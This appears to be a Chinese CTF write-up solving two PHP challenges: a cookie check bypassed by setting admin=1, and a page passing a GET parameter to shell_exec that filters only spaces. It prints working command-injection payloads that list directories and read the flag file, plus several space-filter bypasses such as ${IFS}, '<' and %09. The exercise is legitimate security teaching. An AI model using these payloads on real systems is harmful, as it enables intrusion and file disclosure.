









```
 <?php
error_reporting(0);
header("Content-Type:text/html;charset=utf-8");
highlight_file(__FILE__);
if($_COOKIE['admin']==1) 
{
    include "../next.php";
}
else
    echo "小饼干最好吃啦！";
?> 小饼干最好吃啦！
```

分析源码

判断Cookie中的admin的值弱类型比较是否为1

如果为真，则包含next.php


bp抓包，添加cookie






访问rasalghul.php

```
 <?php
error_reporting(0);
highlight_file(__FILE__);
error_reporting(0);
if (isset($_GET['url'])) {
  $ip=$_GET['url'];
  if(preg_match("/ /", $ip)){
      die('nonono');
  }
  $a = shell_exec($ip);
  echo $a;
}
?> 
```

分析源码

GET提交url

并将url的值赋值给变量ip

过滤空格

执行ip


```
?url=ls
```




读取根目录

利用${IFS}绕过空格

```
?url=ls${IFS}/
```




读取flllllaaaaaaggggggg

```
?url=cat${IFS}/flllllaaaaaaggggggg 
```




${IFS}$1也可以绕过空格

```
?url=cat${IFS}$1/flllllaaaaaaggggggg 
```




$IFS也可以

```
?url=cat$IFS/flllllaaaaaaggggggg 
```




<也可以

```
?url=cat</flllllaaaaaaggggggg 
```




%09也可以

```
?url=cat%09/flllllaaaaaaggggggg 
```

